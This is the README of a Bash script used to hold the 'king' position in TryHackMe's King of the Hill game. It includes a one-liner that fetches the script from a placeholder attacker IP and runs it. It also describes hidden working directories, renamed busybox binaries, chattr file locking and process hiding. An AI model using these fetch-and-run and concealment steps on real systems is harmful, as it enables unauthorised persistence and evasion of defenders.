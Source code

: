 # KingMe
Bash script that helps you maintain your rightful place as king on any Linux box while playing
King of the Hill on TryHackMe.com

## DISCLAIMER
As far as I know, it is not against the rules of THM KotH to use a script like this.
However, I am not responsible if you get banned because you used this script.
Use at your own risk.

## How to use it
Firstly, you must be root on the KotH VM in order for this script to work.

On your attacker machine in the same directory as KingMe, start an http server to host all the files on port 8080 (Note: The http port used to serve the files must be 8080 as it is hard-coded in this script).
This python one-liner works pretty well for that:
>`python -m http.server 8080`

Next, on the KotH VM, use wget to get the kingme.sh script like so:
>`wget http://<attacker IP>:8080/kingme.sh`

Then, make kingme.sh executable:
>`chmod u+x kingme.sh`

Finally, run kingme.sh and take your rightful place as king!
>`./kingme.sh -u <THM Username> -i <attacker IP> -d <secret working dir>`
Or run as a backgroud process!
>`./kingme.sh -u <THM Username> -i <attacker IP> -d <secret working dir> &`

You can also be super 31337 with this one-liner to do everything:
>`wget http://<attacker IP>:8080/kingme.sh && chmod u+x kingme.sh && ./kingme.sh -u <THM Username> -i <attacker IP> -d <secret working dir> &`

(Note: `-u` and `-i` are required but `-d` is optional. If blank, it will default to `/var/kingme`)

## How it works
KingMe sets up a secret working directory, and then downloads several busybox bins to that
working directory. Then it uses random characters to rename these binaries.
This will allow the script to run properly even if at some point the bins
on the KotH VM are moved or messed with. Finally, 
the magic happens. Every second KingMe checks /root/king.txt for your username. If it's not 
there, it puts your username in king.txt. It also locks the file with chattr making it more
difficult to edit by other players. This should maintain a player as king indefinitely, unless
another player figures out what's going on and stops it.

## How to defeat KingMe
Simply finding and removing the secret working directory will break this script since it relies on 
bins located in that directory. Also, killing any running processes 
should do the trick as well.

## Future Plans
- Add more protections for king.txt
- Add more counter-measures for tricks used by other players
- Create some sort of backup so that the script will continue to run even if our secret working dir and/or processes are found

## Version Notes
- v0.1 
  - Initial release written after some shower thoughts late at night
- v0.2 
  - Added steps to rename the busybox bins and make them executable (don't know how I missed this...)
  - Added wget commands for the bins (just in case)
  - Added some noclobber stuff
  - Updated "Future Plans" section of README.
- v0.3
  - Fixed the cronjob section since it was not working and creating way too many processes
- v1.0 
  - Full release!
  - Added arg parsing for easier use
  - Added counter-measure for mount trick
  - Made the secret working directory dynamic
  - Removed curl commands in favor of wget commands
  - Cleaned up README
- v1.1
  - This version was created by Primary73!
  - Added the random naming of the busybox binaries
  - Added logic to choose between curl and wget
  - Process is now hidden
  - Removed the cronjob stuff since it was giving away the hidden directory
